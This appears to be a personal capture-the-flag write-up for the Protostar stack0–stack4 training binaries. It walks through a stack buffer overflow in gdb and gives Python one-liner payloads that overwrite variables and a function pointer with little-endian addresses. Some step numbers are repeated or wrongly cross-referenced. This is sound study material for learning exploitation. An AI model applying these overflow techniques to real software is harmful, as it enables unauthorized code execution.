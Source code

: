 2. Take the last 4 bytes of the address: \x00\x40\x05\x77
3. Invert them because x86_64 is in little endian: \x77\x05\x40\x00'
4. `python -c "print 'A' * 72 + '\x77\x05\x40\x00'" | ./stack3`
                          ^     ^the address backwards cause little endian
                          |
                          may have to play with this number

    Output:
    ```
    calling function pointer, jumping to 0x00400577
    code flow successfully changed
    ```

[Detailed]: Step-by-Step
1. `chmod +x stack3`
2. `gdb stack3`
3. gdb> break main
4. gdb> run
5. gdb> next 13
             ^this number may be different
             You want to step over the gets function so you can give input

5. Dump the whole main method into assembly
   gdb> u main 15
   gef> cs main 15

6. Observe this assembly line
    `mov  qword ptr [rbp - 8], 0`
                       ^look at this
                        this is the location of the variabe `fp`
                        

   In a decompiler (Ghidra/Cutter), you'll see that this assembly line
   points to the line closest to `fp = 0;`

   In Ghidra it's `local_10 = (code *) 0x0;`

7. pwndbg> telescope $rbp-8 1
   gef> dereference $rbp-8 1

   should get something like (pwndbg):
   `00:0000│   0x7fffffffde38 ◂— 0x0`
               ^at this address, the a value is 0


8. > next 13
          ^this number may be different
          You want to step over the gets function so you can give input

9. On separate terminal:
    `python -c "print 'A' * 72 + '\x77\x05\x40\x00'"`
                            ^if this doesn't work at end,
                             play with this number

10. Copy the output of step 5 and paste into GDB and press ENTER

11. Next assembly instruction should be:
    	`cmp    qword ptr [rbp - 8], 0`
                           ^look at this
                            cthis is the location of the variabe `fp`


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/